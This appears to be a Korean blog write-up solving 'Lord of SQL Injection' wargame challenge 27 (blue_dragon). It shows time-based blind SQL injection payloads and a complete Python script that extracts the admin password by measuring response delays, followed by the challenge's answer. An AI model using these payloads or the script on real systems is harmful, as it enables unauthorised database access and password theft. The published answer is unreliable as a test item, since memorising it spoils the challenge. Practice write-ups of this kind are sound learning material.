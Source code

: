 ```yaml
---
title: LOS - 27번 blue_dragon
category: [Wargame, Lord of SQL Injection]
---
```


# [27] blue_dragon

## 문제

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FKFIKw%2FbtroCv4EK0q%2F34qar1nyDQNZRXZPTiBYE0%2Fimg.png">

## 풀이

1. 싱글쿼터와 역슬래시를 필터링하고 있다.

2. pw를 알아내야하는 Blind SQLi 문제이다.

<br>

이전 문제들과 뭔가 다른 점은 다음 부분이다.

```php
$result = @mysqli_fetch_array(mysqli_query($db,$query));
if(preg_match('/\'|\\\/i', $_GET[id])) exit("No Hack ~_~");
if(preg_match('/\'|\\\/i', $_GET[pw])) exit("No Hack ~_~");
```
 
쿼리를 먼저 실행한 이후에 싱글쿼터와 역슬래시를 필터링하고 있다.

싱글쿼터나 역슬래시가 포함된 문자열을 페이로드로 전달하더라도 쿼리는 실행될 것임을 추측할 수 있다.

다만, 필터에 걸릴 시 No Hack으로 exit해주고 있기 때문에 육안으로는 쿼리의 참/거짓 결과를 알 수가 없다.

따라서 이번 문제에서는 처음으로 Time Based SQLi를 사용해보았다!

<br>

[1] pw 길이 찾기

```
?id=' || id='admin' and if(length(pw)=[숫자], sleep(3), 0) %23
```

- 뒷부분은 전부 주석으로 날려주었기 때문에 pw 페이로드는 전달할 필요가 없다.

<br> 

[2] 완전한 pw 찾기

```
?id=' || id='admin' and if(ascii(substr(pw,[인덱스],1))=[아스키], sleep(3), 0) %23
```

- 역시 pw 페이로드는 전달할 필요가 없다.

<br>

[3] 참/거짓 판별

- Request를 보낸 이후 Response가 도착하기까지 걸린 시간을 측정하여 3초가 넘으면 참으로 본다.

<br>


**LoS 27번 Python 자동화 코드**이다.
```python
import requests
import time

url = "https://los.rubiya.kr/chall/blue_dragon_23f2e3c81dca66e496c7de2d63b82984.php"
cookie = {"PHPSESSID":"leco90m74ui20oikeo0n338f6b"}

print("🖤 Start SQLi...")

for i in range(1,100):
    payload = f"?id=' || id='admin' and if(length(pw)={i},sleep(3),0) %23"
    pre = time.time()
    requests.get(url+payload, cookies=cookie)
    post = time.time()
    if(post-pre>3):
        length = i
        print(f">> length : {length}")
        break

ans=""

for letter in range(1,length+1):
    print(f"🖤 Checking letter {letter}...")
    start = 32
    end = 127
    while True:
        middle = round((start+end)/2)
        payload = f"?id=' || id='admin' and if(ascii(substr(pw,{letter},1))>={middle},sleep(3),0) %23"
        pre = time.time()
        requests.get(url+payload, cookies=cookie)
        post = time.time()
        if(post-pre>3):
            payload = f"?id=' || id='admin' and if(ascii(substr(pw,{letter},1))={middle},sleep(3),0) %23"
            pre = time.time()
            requests.get(url+payload, cookies=cookie)
            post = time.time()
            if(post-pre>3):
                print(f">> letter {letter} → {chr(middle)}")
                ans+=chr(middle)
                break
            else:
                start = middle
        else:
            end = middle
            continue

print(f"🖤 Answer : {ans}")
```

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FeBeESw%2FbtroDPaeKTt%2FzQ2nB2e2UXsR6W4i8TLEzk%2Fimg.png">

답은 `d948b8a0` 이다.

## 결과

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2F5Wdoj%2FbtroCwvIybX%2FnimHxDRsIC3HlDBClY1PN1%2Fimg.png">